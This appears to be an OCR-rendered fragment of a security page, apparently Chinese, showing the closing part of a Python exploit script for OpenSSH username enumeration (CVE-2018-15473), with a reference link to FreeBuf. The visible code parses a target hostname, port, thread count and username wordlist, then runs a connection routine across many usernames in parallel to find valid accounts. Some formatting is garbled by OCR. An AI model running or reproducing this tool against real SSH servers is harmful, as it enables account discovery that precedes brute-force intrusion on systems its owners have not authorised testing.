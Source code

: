 apply_monkey_patch()

if kwargs.get('username'):
    kwargs['username'] = kwargs.get('username').strip()
    return connect(**kwargs)

with multiprocessing.Pool(kwargs.get('threads')) as pool, Path(kwargs.get('wordlist')).open() as usernames:
    host = kwargs.get('hostname')
    port = kwargs.get('port')
    verbose = kwargs.get('verbose')
    pool.starmap(connect, [(user.strip(), host, port, verbose) for user in usernames]) 
```

if **name** == ‘**main**’:

parser = argparse.ArgumentParser(description=“OpenSSH Username Enumeration (CVE-2018-15473)”)

```
parser.add_argument('hostname', help='target to enumerate', type=str)
parser.add_argument('-p', '--port', help='ssh port (default: 22)', default=22, type=int)
parser.add_argument('-t', '--threads', help="number of threads (default: 4)", default=4, type=int)
parser.add_argument('-v', '--verbose', action='store_true', default=False,
                    help="print both valid and invalid usernames (default: False)")
parser.add_argument('-6', '--ipv6', action='store_true', help="Specify use of an ipv6 address (default: ipv4)")

multi_or_single_group = parser.add_mutually_exclusive_group(required=True)
multi_or_single_group.add_argument('-w', '--wordlist', type=str, help="path to wordlist")
multi_or_single_group.add_argument('-u', '--username', help='a single username to test', type=str)

args = parser.parse_args()

logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

main(**vars(args)) 
``` 
```

## 参考链接

> https://www.freebuf.com/vuls/184583.html
